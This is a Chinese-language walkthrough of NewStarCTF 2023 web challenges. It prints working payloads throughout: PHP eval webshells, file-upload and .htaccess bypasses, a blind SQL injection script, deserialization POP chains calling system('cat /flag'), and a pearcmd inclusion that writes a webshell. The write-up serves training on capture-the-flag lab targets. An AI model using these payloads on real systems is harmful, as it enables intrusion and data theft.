


# Week1
# 泄漏的秘密
粗心的网站管理员总会泄漏一些敏感信息在 Web 根目录下
题目说到敏感信息，很容易想到那几个文件，使用 dirsearch 或者其他扫描工具扫一下，发现 robots.txt 和 www.zip 备份文件。
其中 robots.txt 藏着前半段 flag:
PART ONE: flag{r0bots_1s_s0_us3ful
www.zip 文件藏着后半段：
$PART_TWO = "_4nd_www.zip_1s_s0_d4ng3rous}";
拼接即可得到 flag。
# Begin of Upload
普通的上传啦，平平淡淡才是真
文件上传题，尝试上传一句话木马：
GIF89a | |
<?php eval($_POST['cmd']);?> |
弹出对话框：
错误的拓展名，只允许上传: JPG, JPEG, PNG, GIF
这样的话那就将文件名改为 1.jpg，用 bp 截包，再将文件后缀名修改为 1.php，以此来绕过前端验证。
或者还有种思路就是用浏览器将该网站的 js 功能给禁用，这样就不会存在前端验证了。
上传成功得到文件路径：/upload/1.php,
在 post 框执行
cmd=system("cat /f*");
或者用蚁剑连接即可。
# Begin of HTTP
最初的开始
Welcome to NewStarCTF 2023~
欢迎来到 CTF 的世界
请使用 GET 方式 来给 ctf 参数传入任意值来通过这关
提示用 GET 方式传一个任意值的 ctf 参数
?ctf=1
进入第二层：
很棒，如果我还想让你以 POST 方式来给我传递 secret 参数你又该如何处理呢？ 如果你传入的参数值并不是我想要的 secret，我也不会放你过关的 或许你可以找一找我把 secret 藏在了哪里
让我们猜猜 secret 藏在哪，直接检查源代码，发现：
<!-- Secret: base64_decode(bjN3c3Q0ckNURjIwMjNnMDAwMDBk) --> |
解码得到：n3wst4rCTF2023g00000d
post 传入：
secret=n3wst4rCTF2023g00000d
进入下一层：
很强，现在我需要验证你的 power 是否是 ctfer ，只有 ctfer 可以通过这关
让我们的 power 是 ctfer，一般这种身份认证都藏在 cookie 中。
修改：
power=ctfer
你已经完成了本题过半的关卡，现在请使用 NewStarCTF2023 浏览器 来通过这关！
进入最后一层，修改 User-Agent 为 NewStarCTF2023 即可。
然后：
希望你是从 newstarctf.com 访问到这个关卡的
修改
Referer:newstarctf.com
最后：
最后一关了！只有 本地用户 可以通过这一关
添加 X-Real-IP 头，值为 127.0.0.1
X-Real-IP:127.0.0.1
恭喜你顺利完成了本道题目，这是你的 Flag，快去提交吧：flag
# ErrorFlask
give me number1 and number2,i will help you to add
提示输入 number1 和 number2，尝试输入数字试试：
?number1=2&number2=3
得到回显：
not ssti,flag in source code~5
提示不是模板注入
尝试输入其他数据类型：
?number1=2&number2=a
发现报错，在报错目录中发现 flag:

# Begin of PHP
PHP 是世界上最安全的语言，真的吗？
题目：
<?php | |
error_reporting(0); | |
highlight_file(__FILE__); | |
if(isset($_GET['key1']) && isset($_GET['key2'])){ | |
echo "=Level 1=<br>"; | |
if($_GET['key1'] !== $_GET['key2'] && md5($_GET['key1']) == md5($_GET['key2'])){ | |
$flag1 = True; | |
}else{ | |
die("nope,this is level 1"); | |
} | |
} | |
if($flag1){ | |
echo "=Level 2=<br>"; | |
if(isset($_POST['key3'])){ | |
if(md5($_POST['key3']) === sha1($_POST['key3'])){ | |
$flag2 = True; | |
} | |
}else{ | |
die("nope,this is level 2"); | |
} | |
} | |
if($flag2){ | |
echo "=Level 3=<br>"; | |
if(isset($_GET['key4'])){ | |
if(strcmp($_GET['key4'],file_get_contents("/flag")) == 0){ | |
$flag3 = True; | |
}else{ | |
die("nope,this is level 3"); | |
} | |
} | |
} | |
if($flag3){ | |
echo "=Level 4=<br>"; | |
if(isset($_GET['key5'])){ | |
if(!is_numeric($_GET['key5']) && $_GET['key5'] > 2023){ | |
$flag4 = True; | |
}else{ | |
die("nope,this is level 4"); | |
} | |
} | |
} | |
if($flag4){ | |
echo "=Level 5=<br>"; | |
extract($_POST); | |
foreach($_POST as $var){ | |
if(preg_match("/[a-zA-Z0-9]/",$var)){ | |
die("nope,this is level 5"); | |
} | |
} | |
if($flag5){ | |
echo file_get_contents("/flag"); | |
}else{ | |
die("nope,this is level 5"); | |
} | |
} |
第一层用数组绕过即可。
?key1[]=1&key2[]=2
由于 md5,sha1 等哈希函数在处理数组类型的传参时，会返回 NULL 值，因此第二层也可以用数组绕过。
key3[]=1
第三层考察 strcmp 函数的特性，如果传入的参数为数组类型，该函数会返回 NULL 值，构造 NULL == 0 来绕过判断。
/?key1[]=1&key2[]=2&key4[]=2
第四层首先要求 key5 不能是数字，同时要比 2023 大，可以在传入的数字后添加字母来绕过判断。
?key1[]=1&key2[]=2&key4[]=2&key5=2024a
最后一层考察 extract 函数导致的变量覆盖，这里的 If 判断只要保证传入变量 flag5 为真即可，在 php 中，除了 0 和 false，任何数据都会被当成 True，不过这里不能传入字母数字。
key3[]=3&flag5=?
# R!C!E!
题目：
<?php | |
highlight_file(__FILE__); | |
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){ | |
$password=md5($_POST['password']); | |
$code=$_POST['e_v.a.l']; | |
if(substr($password,0,6)==="c4d038"){ | |
if(!preg_match("/flag|system|pass|cat|ls/i",$code)){ | |
eval($code); | |
} | |
} | |
} |
这道题要求我们传入的 post 参数 password ，MD5 加密后的前六位和 'c4d038' 相等。
写个脚本爆破下：
#!/usr/bin/env python | |
import hashlib | |
def md5(s): | |
return hashlib.md5(s.encode("utf-8")).hexdigest() | |
for i in range(1, 9999999): | |
if md5(str(i)).startswith('c4d038'): | |
print(i) |
得到结果 ："114514"。
然后就是要求传入一个 e_v.a.l 参数，来命令执行，如果直接以这种形式传入，由于 php 中的变量只能是数字字母下划线，而 php8 以下会自动把一些不合法的字符转换成下划线，所以会被自动替换为 e_v_a_l。
但是没有关系，他有个 bug，就是如果我们让你一个下划线的位置为 '['，那么后面的点是不会转换的，因此可以传入 e [v.a.l
最后一个考点就是绕过正则匹配，以下方法均可使用。
password=114514&e[v.a.l=echo `l\s /`;
password=114514&e[v.a.l=echo `c\at fl*`;
password=114514&e[v.a.l=`ls / > 1.txt`;
password=114514&e[v.a.l=`tac fl* > 1.txt`;
这两种本质上来说是一样的，当然也可用 tee 命令来代替 > 符号。
password=114514&e[v.a.l=var_dump(scandir('/'));
password=114514&e[v.a.l=var_dump(file_get_contents($_POST['a']));&a=/flag
# EasyLogin
进入之后是一个登录界面，先随便注册一个账号登进去看看。
Ctrl``C 和 Ctrl``D 回到 Shell，简单看了下目录结构没有什么东西，只告知了含有一个 admin 用户，按方向上键可以查询 Bash 历史记录。
发现 Hint，得知 admin 的密码为弱密码加上 newstarnewstar2023 后其中的一个。
按 CtrlD 或者输入 exit 后回车回到登录界面。
那就简单爆破一下，最终爆破出 000000（不同靶机弱密码不同）
题目采用的弱密码表
123456789
password
newstar
newstar2023
123qwe
qwe123
qwertyuiop
asdfghjkl
zxcvbnm
admin123
admin888
111111
000000
查询历史记录只提示了使用 BurpSuite ，尝试抓包。
使用 BurpSuite 拦截、开启代理，重新完成一次登录，发现一个 /passport 的 302 跳转，查看它的响应获取 flag.
# Week2
# 游戏高手
js 审计题，和 SHCTF 那道飞机大战差不多。
题目说 100,000 分就给 Flag，查看一下源代码：
在 app_v2.js 中看到这样一串代码：
function gameover(){ | |
if(gameScore > 100000){ | |
var xhr = new XMLHttpRequest(); | |
xhr.open("POST", "/api.php", true); | |
xhr.setRequestHeader("Content-Type", "application/json"); | |
xhr.onreadystatechange = function() { | |
if (xhr.readyState === 4 && xhr.status === 200) { | |
var response = JSON.parse(xhr.responseText); | |
alert(response.message); | |
} | |
}; | |
var data = { | |
score: gameScore, | |
}; | |
xhr.send(JSON.stringify(data)); | |
} | |
alert("成绩："+gameScore); | |
gameScore=0; | |
curPhase =PHASE_READY; | |
hero = null; | |
hero = new Hero(); | |
} |
可以看到当分数大于 10w 分时，会向 /api.php 发送一个 json 数据包，json 内容如下：
大体意思就是这样，向 /api.php 发送一个 post 请求，要求 gamescore>100000 即可。
细细分析这串代码是这样子的：
利用：var xhr = new XMLHttpRequest (); 创建一个 XMLHttpRequest 对象（ xhr ）用于向服务器发送 HTTP 请求。
使用 POST 方法将请求发送到 "/api.php" 的 URL。
设置请求头的 Content-Type 为 "application/json"，表示请求的数据将以 JSON 格式发送。
设置 xhr 对象的 onreadystatechange 事件处理程序，以便在请求状态改变时执行特定的操作。
创建一个包含游戏分数的 JavaScript 对象（ data ），然后将其转换为 JSON 格式并通过 xhr.send 方法发送给服务器。
然后，无论游戏分数是否大于 100,000，都会执行以下操作：
- 弹出一个包含游戏分数的警告框，显示游戏得分（
gameScore）。 - 将
gameScore重置为 0，为了准备下一轮游戏。 - 重置
curPhase为PHASE_READY，将游戏状态设置为准备状态。 - 创建一个新的
hero对象
关于 xhr.readyState 是这样的：
xhr.readyState 是 XMLHttpRequest 对象的属性，用于表示当前请求的状态。它的值会在不同阶段的请求过程中发生变化，帮助开发人员监控和处理请求的进度。xhr.readyState 可能的取值如下： | |
0（UNSENT）：初始化状态。XMLHttpRequest 对象已经创建，但尚未调用 open 方法。 | |
1（OPENED）：打开状态。open 方法已经被调用，但尚未调用 send 方法。 | |
2（HEADERS_RECEIVED）：接收响应头状态。send 方法已经被调用，响应头已经接收。 | |
3（LOADING）：正在接收响应数据。正在接收响应数据，但尚未完成。 | |
4（DONE）：完成状态。整个请求过程已完成，包括接收和处理响应数据。 | |
通常，在处理 XMLHttpRequest 时，开发人员会关注 xhr.readyState 的值，特别是当它变为 4 时，表示请求已经完成，可以安全地处理响应数据。这通常与 xhr.status 结合使用，以确定请求是否成功完成。 |
关于 JSON.stringify(data)
它是 JavaScript 中的一个函数，用于将一个 JavaScript 对象或值转换为 JSON 格式的字符串。JSON（JavaScript Object Notation）是一种用于数据交换的轻量级文本格式，通常用于在不同应用程序之间传递数据。
当你传递一个 JavaScript 对象给
JSON.stringify()函数时，它会将该对象序列化为一个 JSON 字符串，以便可以在网络中传输、存储到文件中，或者用于其他数据交换的场合。这个函数的语法如下：javascriptCopy code JSON.stringify(value[, replacer[, space]])
value: 要转换为 JSON 字符串的值（通常是一个 JavaScript 对象）。replacer（可选）：一个函数或数组，用于控制如何筛选或转换对象的属性。如果不需要筛选或转换属性，可以将其设置为null。space（可选）：一个用于缩进输出的字符串或数字，可选项，用于美化生成的 JSON 字符串。通常用于格式化输出。
理解了代码后，发包：
POST /api.php HTTP/1.1 | |
Host: b76621da-9478-4b38-816d-21bfa26d009a.node4.buuoj.cn:81 | |
Cache-Control: max-age=0 | |
Upgrade-Insecure-Requests: 1 | |
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 | |
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 | |
Accept-Encoding: gzip, deflate | |
Accept-Language: zh-CN,zh;q=0.9 | |
Content-Type: application/json | |
{"score" : 100000} |
得到响应包：
HTTP/1.1 200 OK | |
Server: openresty | |
Date: Tue, 07 Nov 2023 12:27:40 GMT | |
Content-Type: text/html; charset=utf-8 | |
Connection: keep-alive | |
X-Powered-By: PHP/7.3.15 | |
Content-Length: 58 | |
{"message":"flag{f7aa0a86-95fb-469e-9fba-a3c309b69e16}\n"} |
或者可以设置断点，来修改 score。
# include 0。0
进入题目给出源码：
<?php | |
highlight_file(__FILE__); | |
// FLAG in the flag.php | |
$file = $_GET['file']; | |
if(isset($file) && !preg_match('/base|rot/i',$file)){ | |
@include($file); | |
}else{ | |
die("nope"); | |
} | |
?> nope |
需要读取 flag.php 文件，读取 php 文件需要使用 php://filter 伪协议中的过滤器，常见的就是 base64 编码，但这里过滤了 base 和 rot
但是没有关系，可以用其他过滤器，比如 convert.iconv 系列过滤器。
具体可以参考这篇文章：
php://filter 的各种过滤器
payload:
?file=php://filter/convert.iconv.UTF-8.UTF-16/resource=flag.php
# ez_sql
union 注入题，使用大小写就可以绕过，为了之后方便，我直接写了一个盲注脚本：
import requests | |
import urllib | |
import string | |
import time | |
session = requests.session() | |
flag = '' | |
burp0_url = "http://4eee49a9-7a7b-4891-933b-27c782f49044.node4.buuoj.cn:81/" | |
for i in range(1, 50): | |
for j in string.printable: | |
#url = burp0_url + "?id=TMP1589' And Ascii(Substr(database(),{},1)) = {}%23".format(i, ord(j)) | |
#url = burp0_url + "?id=TMP1589' And Ascii(Substr((Select table_name From INFOrmation_schema.tables Where table_schema='ctf' limit 1,1),{},1))={}%23".format(i, ord(j)) | |
#here_is_flag | |
#url = burp0_url + "?id=TMP1589' And Ascii(Substr((Select column_name From INFOrmation_schema.columns Where table_schema='ctf' And table_name='here_is_flag' limit 0,1),{},1))={}%23".format(i, ord(j)) | |
url = burp0_url + "?id=TMP1589' And Ascii(Substr((Select flag From here_is_flag),{},1))={}%23".format(i, ord(j)) | |
r = session.get(url=url) | |
if "id: TMP1589" in r.text: | |
flag += j | |
print(flag) | |
break | |
else: | |
time.sleep(0.1) | |
continue |
# Unserialize？
<?php | |
highlight_file(__FILE__); | |
// Maybe you need learn some knowledge about deserialize? | |
class evil { | |
private $cmd; | |
public function __destruct() | |
{ | |
if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){ | |
@system($this->cmd); | |
} | |
} | |
} | |
@unserialize($_POST['unser']); | |
?> |
简单的反序列化题，对 rce 的过滤也很简单，
使用 '\'、单引号绕过，或者用其他文件查看命令即可。
<?php | |
class evil { | |
private $cmd="c\at /th1s_1s_fffflllll4444aaaggggg"; | |
} | |
$a=new evil(); | |
echo urlencode(serialize($a)); |
unser=O%3A4%3A%22evil%22%3A1%3A%7Bs%3A9%3A%22%00evil%00cmd%22%3Bs%3A35%3A%22c%5Cat+%2Fth1s_1s_fffflllll4444aaaggggg%22%3B%7D
# Upload again!
本题的考点是绕过后端对后缀名的限制，apache 解析漏洞，绕过对文件内容的检测。
文件内容禁止使用 <?，用下面的一句话木马绕过：
POST / HTTP/1.1 | |
Host: 8c9b9a93-c631-4894-af5a-9cdfa624d16a.node4.buuoj.cn:81 | |
Upgrade-Insecure-Requests: 1 | |
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 | |
Referer: http://8c9b9a93-c631-4894-af5a-9cdfa624d16a.node4.buuoj.cn:81/ | |
Accept-Encoding: gzip, deflate | |
Accept-Language: zh-CN,zh;q=0.9 | |
Origin: http://8c9b9a93-c631-4894-af5a-9cdfa624d16a.node4.buuoj.cn:81 | |
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 | |
Cache-Control: max-age=0 | |
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx6o4VHZ4XDm5n0AN | |
Content-Length: 366 | |
------WebKitFormBoundaryx6o4VHZ4XDm5n0AN | |
Content-Disposition: form-data; name="file"; filename="6.jpg" | |
Content-Type: image/jpeg | |
GIF89a? | |
<script language="php">@eval($_POST['cmd']);</script> | |
------WebKitFormBoundaryx6o4VHZ4XDm5n0AN | |
Content-Disposition: form-data; name="submit" | |
Upload!!! | |
------WebKitFormBoundaryx6o4VHZ4XDm5n0AN-- |
然后再上传.htaccess 文件，让服务器把.jpg 文件当成 php 文件解析：
POST / HTTP/1.1 | |
Host: 8c9b9a93-c631-4894-af5a-9cdfa624d16a.node4.buuoj.cn:81 | |
Accept-Encoding: gzip, deflate | |
Cache-Control: max-age=0 | |
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIkVx38g5yCKcBpoo | |
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 | |
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 | |
Referer: http://8c9b9a93-c631-4894-af5a-9cdfa624d16a.node4.buuoj.cn:81/ | |
Accept-Language: zh-CN,zh;q=0.9 | |
Upgrade-Insecure-Requests: 1 | |
Origin: http://8c9b9a93-c631-4894-af5a-9cdfa624d16a.node4.buuoj.cn:81 | |
Content-Length: 470 | |
------WebKitFormBoundaryIkVx38g5yCKcBpoo | |
Content-Disposition: form-data; name="file"; filename=".htaccess" | |
Content-Type: application/octet-stream | |
AddType application/x-httpd-php .php .jpg .png .gif | |
SetHandler application/x-httpd-php | |
php_value auto_append_fi\ | |
le "php://filter/convert.base64-decode/resource=6.jpg" | |
------WebKitFormBoundaryIkVx38g5yCKcBpoo | |
Content-Disposition: form-data; name="submit" | |
Upload!!! | |
------WebKitFormBoundaryIkVx38g5yCKcBpoo-- |
用蚁剑连接或者直接命令执行即可。
# RCE!!
进入题目：
Welcome To NewstarCTF 2023,Nothing here,or you wanna to find some leaked information?
提示有信息泄露，用 dirsearch 扫，扫除 /.git，使用 GitHack 工具获取源码，看到里面有个 bo0g1pop.php
进入界面：
<?php | |
highlight_file(__FILE__); | |
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) { | |
if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){ | |
eval($_GET['star']); | |
} | |
} |
第一个正则对提交的参数进行处理：任意字符加上可选括号（允许嵌套）更换为空，然后判断是否等于分号，说白了就是限制你只能使用不带参数的函数，也可以说是无参 rce。
具体可以参考这篇文章：
RCE 篇之无参数 rce
然后看第二个正则，过滤了很多函数，current 函数用来输出数组中当前元素的值，可以用 pos 函数代替
先如此操作看看
?star=print_r(getallheaders());
回显：
Array ( [Host] => 4cfcf0d2-34cf-4d87-9401-2eca0f66429e.node4.buuoj.cn:81 [User-Agent] => Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 [Accept] => text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7 [Accept-Encoding] => gzip, deflate [Accept-Language] => zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7 [Upgrade-Insecure-Requests] => 1 [X-Forwarded-For] => 42.122.142.35, 101.70.126.158 [X-Forwarded-Proto] => http )
很明显我们不能直接修改 host 上的值，所以 array_reverse () 一下，在 X-Forwarded-Proto 上操作，或者可以 next 下在 User-Agent 上操作。
?star=eval(next(getallheaders()));
User-Agent:system("ls /");
User-Agent:system("cat /flag");
# Week3
# Include 🍐
题目：
<?php | |
error_reporting(0); | |
if(isset($_GET['file'])) { | |
$file = $_GET['file']; | |
if(preg_match('/flag|log|session|filter|input|data/i', $file)) { | |
die('hacker!'); | |
} | |
include($file.".php"); | |
# Something in phpinfo.php! | |
} | |
else { | |
highlight_file(__FILE__); | |
} | |
?> |
题目过滤了常见的伪协议，然后提示说在 phpinfo.php 文件中有东西
?file=phpinfo
看到一串敏感信息：
fake
然后检查 register_argc_argv 发现都是 on。
结合标题，pear，搜索发现是 pear 裸文件包含。
具体可以参考 p 神的文章：
Docker PHP 裸文件本地包含综述
payload:
/?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>+/tmp/cmd.php
简单解释一下：
首先得知道 $_SERVER ['argv'] 通过 query_string 取值，并通过 + 作为分割符，
然后就是 config-create，阅读其代码和帮助，可以知道，它可以直接创建配置文件，这个命令需要传入两个参数，且第一个参数必须以 / 开头，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。
这里的：/&file=/usr/local/lib/php/pearcmd&/<?=@eval ($_POST ['cmd']);?> 就是第一个参数，由于 php 会将格式错误的代码忽视，所以这句话即起到将 /usr/local/lib/php/pearcmd 包含的作用，又写入了一句话木马文件的内容，
所以也可以这样写：
?file=/usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_POST['a'])?>+/tmp/cmd.php
最后：
?file=/tmp/cmd
#post
0=system("cat /flag");
即可。
# medium_sql
相较于 week1 过滤了 union
不过对咱没啥影响，脚本依旧可以用：
import requests | |
import urllib | |
import string | |
import time | |
session = requests.session() | |
flag = '' | |
burp0_url = "http://4eee49a9-7a7b-4891-933b-27c782f49044.node4.buuoj.cn:81/" | |
for i in range(1, 50): | |
for j in string.printable: | |
#url = burp0_url + "?id=TMP1589' And Ascii(Substr(database(),{},1)) = {}%23".format(i, ord(j)) | |
#url = burp0_url + "?id=TMP1589' And Ascii(Substr((Select table_name From INFOrmation_schema.tables Where table_schema='ctf' limit 1,1),{},1))={}%23".format(i, ord(j)) | |
#here_is_flag | |
#url = burp0_url + "?id=TMP1589' And Ascii(Substr((Select column_name From INFOrmation_schema.columns Where table_schema='ctf' And table_name='here_is_flag' limit 0,1),{},1))={}%23".format(i, ord(j)) | |
url = burp0_url + "?id=TMP1589' And Ascii(Substr((Select flag From here_is_flag),{},1))={}%23".format(i, ord(j)) | |
r = session.get(url=url) | |
if "id: TMP1589" in r.text: | |
flag += j | |
print(flag) | |
break | |
else: | |
time.sleep(0.1) | |
continue |
# POP Gadget
题目：
<?php | |
highlight_file(__FILE__); | |
class Begin{ | |
public $name; | |
public function __destruct() | |
{ | |
if(preg_match("/[a-zA-Z0-9]/",$this->name)){ | |
echo "Hello"; | |
}else{ | |
echo "Welcome to NewStarCTF 2023!"; | |
} | |
} | |
} | |
class Then{ | |
private $func; | |
public function __toString() | |
{ | |
($this->func)(); | |
return "Good Job!"; | |
} | |
} | |
class Handle{ | |
protected $obj; | |
public function __call($func, $vars) | |
{ | |
$this->obj->end(); | |
} | |
} | |
class Super{ | |
protected $obj; | |
public function __invoke() | |
{ | |
$this->obj->getStr(); | |
} | |
public function end() | |
{ | |
die("==GAME OVER=="); | |
} | |
} | |
class CTF{ | |
public $handle; | |
public function end() | |
{ | |
unset($this->handle->log); | |
} | |
} | |
class WhiteGod{ | |
public $func; | |
public $var; | |
public function __unset($var) | |
{ | |
($this->func)($this->var); | |
} | |
} | |
@unserialize($_POST['pop']); |
简单的 pop 链子，从 Begin 的__destruct 析构函数作为起点开始，构造 POP 链触发到 WhiteGod 的__unset 方法，__unset 方法中存在一个函数的动态调用，可以实现 RCE。
<?php | |
class Begin{ | |
public $name ; | |
} | |
class Then{ | |
private $func; | |
function __construct() { | |
$this->func = new Super(); | |
} | |
} | |
class Handle{ | |
protected $obj; | |
function __construct() { | |
$this->obj = new CTF(); | |
} | |
} | |
class Super | |
{ | |
protected $obj; | |
function __construct() { | |
$this->obj = new Handle(); | |
} | |
} | |
class CTF{ | |
public $handle; | |
function __construct() { | |
$this->handle = new WhiteGod(); | |
} | |
} | |
class WhiteGod{ | |
public $func="system"; | |
public $var="cat /flag"; | |
} | |
$a = new Begin(); | |
$b = new Then(); | |
$a -> name= $b; | |
//echo serialize($a); | |
echo urlencode(serialize($a)); |
需要注意的是一些类中有保护或私有属性的成员，因此需要对序列化数据进行 URL 编码，得到：
pop=O%3A5%3A%22Begin%22%3A1%3A%7Bs%3A4%3A%22name%22%3BO%3A4%3A%22Then%22%3A1%3A%7Bs%3A10%3A%22%00Then%00func%22%3BO%3A5%3A%22Super%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00obj%22%3BO%3A6%3A%22Handle%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00obj%22%3BO%3A3%3A%22CTF%22%3A1%3A%7Bs%3A6%3A%22handle%22%3BO%3A8%3A%22WhiteGod%22%3A2%3A%7Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3Bs%3A3%3A%22var%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7D%7D%7D%7D%7D
# R!C!E!!!
题目：
<?php | |
highlight_file(__FILE__); | |
class minipop{ | |
public $code; | |
public $qwejaskdjnlka; | |
public function __toString() | |
{ | |
if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){ | |
exec($this->code); | |
} | |
return "alright"; | |
} | |
public function __destruct() | |
{ | |
echo $this->qwejaskdjnlka; | |
} | |
} | |
if(isset($_POST['payload'])){ | |
//wanna try? | |
unserialize($_POST['payload']); | |
} |
还是很简单的 rce，通过__destruct 函数中的 echo 函数来触发 minipop 类中的__tostring 函数，然后就是无回显 rce，可以看到过滤了很多，本题依旧具有写入权限，像 ls > 1.txt 这种方式是用不了了，但 tee 命令可以使用 t''ee 来绕过，于是便有了第一种解法：
<?php | |
class minipop | |
{ | |
public $code="cat /flag_is_h3eeere | t''ee 1"; | |
public $qwejaskdjnlka; | |
} | |
class ne { | |
} | |
$a = new minipop(); | |
$a->qwejaskdjnlka=new minipop(); | |
echo serialize($a); |
看了下官方题解，官方给的非预期解是通过 script 命令，和 tee 这种殊途同归，不过我还是第一次了解到这个命令，长见识了...
可以参考这篇文章：
Linux script 命令 —— 终端里的记录器
官方给的预期解是 bash 盲注：
https://shimo.im/docs/QPMRxzGktzsZnzhz/read
关于 bash 盲注，可以参考这篇文章：
命令执行漏洞
简单解释一下这个脚本，先引入 time，requesets 库，然后构造命令，awk 命令就是一行一行读取文件内容，后面的 NR 就是对应的行数，然后 cut -c 就是以字符为单位取出字符，和字符集比较开始爆破，如果成功就停顿两秒，后面 time 函数显然就是与它配合使用的。
这里再说一道有意思的解法，在这之前可以参考下这篇文章：
CTFshow php 特性 web136
对于其中所用到的 sed 命令和 xargs 命令可以看看这个文档：
Linux sed 命令
Linux xargs 命令
它这里用了以下两个命令：
ls | xargs sed -i "s/die/echo/"
把 die 替换成 echols | xargs sed -i "s/exec/system/"
把 exec 替换成 system
首先列出目录下的文件，xargs 命令是为了配和管道符使用，因为 ls 命令可能不支持使用管道符，然后 sed 修改这个文件内容。
不过很明显，它这道题的代码逻辑和本题并不相同，对于本题，我们可以这样写：
<?php | |
class minipop | |
{ | |
public $qwejaskdjnlka; | |
#public $code="ls;cat /flag_is_h3eeere | script 1"; | |
public $code="ls | xargs sed -i 's/unserialize/eval/'"; | |
} | |
$a = new minipop(); | |
$a->qwejaskdjnlka=new minipop(); | |
echo serialize($a); |
将 unserialize 函数替换成 eval 函数，就可以随便玩了。
# GenShin
进入题目让我们
Oh!try to find some information that is useful~
在响应包中看到 /secr3tofpop
进入后：
please give a name by get
测试后发现是 Python 简单的 SSTI，ban 掉了一些类，像 init,popen 等等啥的，还有单引号也被过滤了，万幸的是双引号还能用，popen 可以用 "pop"+"en" 拼接绕过，
我的解法是通过找它的 file 类来得到 flag 的：
不过这种方法有个弊病，就是如果不知道文件名就无法包含。
在第 414 找到，然后：
得到 flag。
官方 wp 是直接利用内置函数来获取的：
# OtenkiGirl
考察原型链污染，可以参考以下文章：
Nodejs 原型链污染攻击基础知识
深入理解 JavaScript Prototype 污染攻击
根据题目附件中给的 hint.txt 文件：
『「routes」フォルダーだけを見てください。SQL インジェクションはありません。』と御坂御坂は期待に満ちた気持ちで言った。
翻译一下就是本题只需要查看 route 目录中的文件且与 SQL 注入没关系，所以不用考虑 SQL 注入。
